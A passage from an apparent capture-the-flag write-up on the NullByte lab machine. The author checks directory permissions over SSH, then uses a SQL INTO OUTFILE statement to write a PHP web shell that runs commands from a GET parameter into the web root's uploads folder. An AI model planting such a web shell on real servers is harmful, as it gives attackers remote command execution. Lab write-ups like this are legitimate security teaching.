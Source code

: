 I must not have wrote permission to /var/www/phpmyadmin or /var/www.  But hey, I already have user from SSH.  I'll navigate from that shell and see what the permissions are:

```
ramses@NullByte:~$ ls -al /var/www/
total 16
drwxr-xr-x  4 root root 4096 Aug  2  2015 .
drwxr-xr-x 12 root root 4096 Aug  2  2015 ..
drwxrwxrwx  2 root root 4096 Aug  2  2015 backup
drwxr-xr-x  4 root root 4096 Aug  2  2015 html
ramses@NullByte:~$ ls -al /var/www/html
total 60
drwxr-xr-x 4 root root  4096 Aug  2  2015 .
drwxr-xr-x 4 root root  4096 Aug  2  2015 ..
-rw-r--r-- 1 root root   196 Aug  2  2015 index.html
drwxr-xr-x 2 root root  4096 Aug  2  2015 kzMb5nVYJw
-rw-r--r-- 1 root root 16647 Aug  2  2015 main.gif
-rw-r--r-- 1 root root 16628 May 24  2013 main.gif_original
drwxrwxrwx 2 root root  4096 Aug  2  2015 uploads
```

Spankowitz, you dummy.  You blindly copied a shell from Github and didn't look at where it was trying to place it!  The error was telling you that the directory didn't exist, not that you didn't have permission.  Let's modify our little SQL command:

>>SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE ‘/var/www/html/uploads/cmd.php’

![nullbytehome](/images/nb10.png)

Success!  Let's test.

![nullbytehome](/images/nb11.png)
